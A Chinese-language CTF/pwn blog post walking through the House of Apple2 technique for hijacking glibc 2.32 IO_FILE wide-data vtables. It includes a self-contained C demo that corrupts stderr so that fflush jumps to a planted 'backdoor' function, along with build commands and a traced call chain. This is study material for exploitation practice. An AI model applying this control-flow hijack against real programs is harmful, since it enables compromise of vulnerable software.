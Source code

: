 ```yaml
---
title: House_of_Apple2_Demo调试
author: Aapcer
date: 2023-02-06 19:30:00 +0800
categories: [攻击方式利用, House_of_Apple]
tags: [House_of_Apple, PWN, IO利用]
math: true
mermaid: true
comments: false
---
```


## 引言

> 即2.31之后hook都给扬了，大佬们选择忘IO的相关函数去进行利用，今天看到又出了个House_of_琴瑟琵琶，想到自己好久没有做IO的题目了，House_of_Apple2也没又进行记录，这里顺带记录下大佬的Demo

## 利用条件

- 已知`heap`地址和`glibc`地址
- 能控制程序执行`IO`操作，包括但不限于：从`main`函数返回、调用`exit`函数、通过`__malloc_assert`触发
- 能控制`_IO_FILE`的`vtable`和`_wide_data`，一般使用`largebin attack`去控制

当然了，也可以不用largebin attack去写值，我记得`tchache`也可以写

## 利用原理

很简单的是，以前打的FSOP是利用的IO_FILE的vtable表，通过伪造的vtable来任意调用我们的函数，但是后面对IO_FILE的vtable表进行了检查，会判断`vtable`的地址是不是在一个合法的区间。如果`vtable`的地址不合法，程序将会异常终止。

但是有意思的是，他对IO_FILE的vtable进行了检查，可是却没有对IO_FILE中的_IO_wide_data结构体的__wide_vtable进行检查，我们就可以搞这个vtable

> 因此，我们可以劫持`IO_FILE`的`vtable`为`_IO_wfile_jumps`，控制`_wide_data`为可控的堆地址空间，进而控制`_wide_data->_wide_vtable`为可控的堆地址空间。控制程序执行`IO`流函数调用，最终调用到`_IO_Wxxxxx`函数即可控制程序的执行流。

## Demo调试

和大佬的不同，我这里要记录一下调试的过程

Libc版本2.32_3

这里改的是stderr的结构体，没去搞其他的，到时候伪造IO_FILE结构体就行

### 源码

```c
#include<stdio.h>
#include<stdlib.h>
#include<stdint.h>
#include<unistd.h>
#include <string.h>
 
void backdoor()
{
    printf("\033[31m[!] Backdoor is called!\n");
    _exit(0);
}
 
void main()
{
    setbuf(stdout, 0);
    setbuf(stdin, 0);
    setbuf(stderr, 0);
 
    char *p1 = calloc(0x200, 1);
    char *p2 = calloc(0x200, 1);
    puts("[*] allocate two 0x200 chunks");
 
    size_t puts_addr = (size_t)&puts;
    printf("[*] puts address: %p\n", (void *)puts_addr);
    size_t libc_base_addr = puts_addr - 0x7ffff7e5ed90 + 0x7ffff7dde000;
    printf("[*] libc base address: %p\n", (void *)libc_base_addr);
 
    size_t _IO_2_1_stderr_addr = libc_base_addr + 0x1e45e0;
    printf("[*] _IO_2_1_stderr_ address: %p\n", (void *)_IO_2_1_stderr_addr);
 
    size_t _IO_wstrn_jumps_addr = libc_base_addr + 0x1e4c80;
    printf("[*] _IO_wstrn_jumps address: %p\n", (void *)_IO_wstrn_jumps_addr);
 
    char *stderr2 = (char *)_IO_2_1_stderr_addr;
    puts("[+] step 1: change stderr->_flags to 0x800");
    *(size_t *)stderr2 = 0x800;
 
    puts("[+] step 2: change stderr->_mode to 1");
    *(size_t *)(stderr2 + 0xc0) = 1;
 
    puts("[+] step 3: change stderr->vtable to _IO_wstrn_jumps-0x20");
    *(size_t *)(stderr2 + 0xd8) = _IO_wstrn_jumps_addr-0x20;
 
    puts("[+] step 4: replace stderr->_wide_data with the allocated chunk p1");
    *(size_t *)(stderr2 + 0xa0) = (size_t)p1;
 
    puts("[+] step 5: set stderr->_wide_data->_wide_vtable with the allocated chunk p2");
    *(size_t *)(p1 + 0xe0) = (size_t)p2;
 
    puts("[+] step 6: set stderr->_wide_data->_wide_vtable->_IO_write_ptr >  stderr->_wide_data->_wide_vtable->_IO_write_base");
    *(size_t *)(p1 + 0x20) = (size_t)1;
 
    puts("[+] step 7: put backdoor at fake _wide_vtable->_overflow");
    *(size_t *)(p2 + 0x18) = (size_t)(&backdoor);
 
    puts("[+] step 8: call fflush(stderr) to trigger backdoor func");
    fflush(stderr);
 
}
```

### 编译，换库

```bash
gcc house_of_apple2_2.32.c -o pwn -g
patchelf --set-interpreter /usr/local/glibc-all-in-one/libs/2.32-0ubuntu3_amd64/ld-2.32.so --set-rpath /usr/local/glibc-all-in-one/libs/2.32-0ubuntu3_amd64/ ./pwn
```

### 相关调用链

```
_IO_wdefault_xsgetn
    __wunderflow
        _IO_switch_to_wget_mode
            _IO_WOVERFLOW
                *(fp->_wide_data->_wide_vtable + 0x18)(fp)
```

### 运行结果

![image-20230206195726266](/post/20230206/image-20230206195726266.png)

### 开始调试

#### 获取Libc基地址，以及相关结构体和vtable表

![image-20230206195913115](/post/20230206/image-20230206195913115.png)

#### 设置相关flag值

![image-20230206200019834](/post/20230206/image-20230206200019834.png)

![image-20230206200127244](/post/20230206/image-20230206200127244.png)

#### 设置__wide_data相关字段

![image-20230206200427956](/post/20230206/image-20230206200427956.png)

> 其实按照道理来讲，这个p2也就是第二个堆块好像也都不用的，其实玩玩全全可以在第一个堆块里面，只要堆块够大，只需要`*(*(p1+0xe0)+0x18)=backdoor`即可

![image-20230206200932795](/post/20230206/image-20230206200932795.png)

![image-20230206200945802](/post/20230206/image-20230206200945802.png)

![image-20230206201032419](/post/20230206/image-20230206201032419.png)

### Flush进入IO_FILE有关操作

进入`_IO_wdefault_xsgetn`

![image-20230206201315524](/post/20230206/image-20230206201315524.png)

中间调用`__wunderflow`是一个宏

调用`_IO_switch_to_wget_mode`

![image-20230206201635988](/post/20230206/image-20230206201635988.png)

[[rax+0xe0]+0x18]=backdoor

调用backdoor

![image-20230206201745638](/post/20230206/image-20230206201745638.png)

## 总结

> 这里只是对House_of_Apple的调用链条进行了一个简单的调试，利用的是`_IO_wdefault_xsgetn`来进行攻击，还有很多IO函数可以进行利用，后面的文章会介绍其他的IO_FILE函数攻击以及对应的IO_FILE如何构造
